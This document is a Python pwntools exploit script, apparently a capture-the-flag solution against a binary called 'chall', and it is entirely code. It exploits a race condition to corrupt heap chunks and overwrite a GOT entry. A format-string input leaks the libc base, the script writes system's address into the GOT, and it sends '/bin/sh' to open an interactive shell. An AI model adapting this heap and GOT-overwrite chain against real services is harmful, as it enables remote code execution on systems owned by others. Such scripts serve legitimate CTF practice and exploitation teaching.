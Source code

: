 ```python
    out=r.recvuntil(": ")
    if out[-3]=='2':
        log.info("unsuccessful")
        return -1
    else:
        r.sendline(str(size))
        sleep(4)
        log.info("Sleep1 over")
        r.sendlineafter("Enter Size 2: ",str(size2))
        sleep(4)
        log.info("Sleep2 over")
        r.sendline(auth)
        r.sendlineafter("Enter Data 1: ",data)
        r.sendline(str(size2_act))
        r.sendlineafter("Enter Author name : ",auth)
        r.sendlineafter("Enter Data 2: ",data2)
        return 1

def alloc(size,data,auth='q'*0xf0,l=False):
    menu(1)
    r.sendlineafter("How many chunks at a time (1/2) ? ",'1')
    r.sendlineafter("Enter Size 1: ",str(size))
    if l:
        r.sendlineafter("Enter Author name : ",auth)
    else:
        r.sendafter("Enter Author name : ",auth)
    r.sendlineafter("Enter Data 1: ",data)

def exploit():
    alloc(1000-0x100,"q")
    alloc(1000-0x100,"q")
    alloc(1000-0x100,"q")
    race_cond(568,"a"*0x230+"qqqqqqqq"+p64(0x71)+p64(0x6020dd),10000,"aa",12,"q"*(0xf0-1))
    alloc(90,"q")
    alloc(90,"qqq"+p64(0x602088))
    edit(p64(0x400970))
    menu("%3$p##")
    libc.address=int(r.recvuntil("##").replace("##",''),16)-0x3da51d
    log.info("libc @ "+hex(libc.address))
    l=0x602088
    menu("11")
    r.sendlineafter("Enter new data: ",p64(libc.symbols['system']))
    menu("/bin/sh\x00")


if __name__=='__main__':

    success=False
    while(not success):
        if len(sys.argv)>1:
            r=remote(HOST,PORT)
        else:
            r=process('./chall')
        success=race_cond(12,"A"*24+p64(0x21)+"A"*24+p64(0xea1),10000,"12",12,"QQQQ")

    log.info("successful")
    exploit()
    r.interactive()
```
